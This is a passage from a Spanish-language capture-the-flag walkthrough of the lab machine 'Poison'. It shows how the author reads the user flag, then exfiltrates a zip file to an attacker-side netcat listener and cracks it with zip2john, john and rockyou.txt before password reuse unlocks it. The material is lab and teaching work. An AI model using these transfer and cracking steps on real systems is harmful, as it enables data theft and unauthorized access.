 
La flag de usuario la podemos encontrar en el mismo directorio donde nos encotramos

```bash
charix@Poison:~ % ls
secret.zip	user.txt
charix@Poison:~ % cat user.txt 
eaacdfb2d141b72a5***************
```

### Escalada Privilegios

* * *

En el directorio donde nos encontramos vemos un archivo `secret.zip`. Lo transferimos a nuestra máquina con netcat

```bash
#MAQUINA VICTIMA
charix@Poison:~ % nc 10.10.14.24 443 < secret.zip

#MAQUINA ATACANTE
❯ nc -nlvp 443 > secret.zip
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.84] 62672
```

Si tratamos de descomprimir el archivo veremos que está protegido por contraseña. Con `zip2john` extraemos el hash y con `john` y el diccionario `rockyou.txt` tratamos de obtener la contraseña

```bash
❯ zip2john secret.zip > hash
ver 2.0 secret.zip/secret PKZIP Encr: cmplen=20, decmplen=8, crc=77537827

❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2022-11-10 12:25) 0g/s 10028Kp/s 10028Kc/s 10028KC/s !jonaluz28!..*7¡Vamos!
Session completed
```
Vaya, parece que no hemos tenido suerte. Probamos por si se reutiliza contraseña obtenida anteriormente para el usuario charix

```bash
❯ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
❯ ls
 hash   secret   secret.zip
❯ cat secret
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: secret
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ ��[|Ֆz!
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Conseguimos descomprimir el archivo pero vemos que no es legible

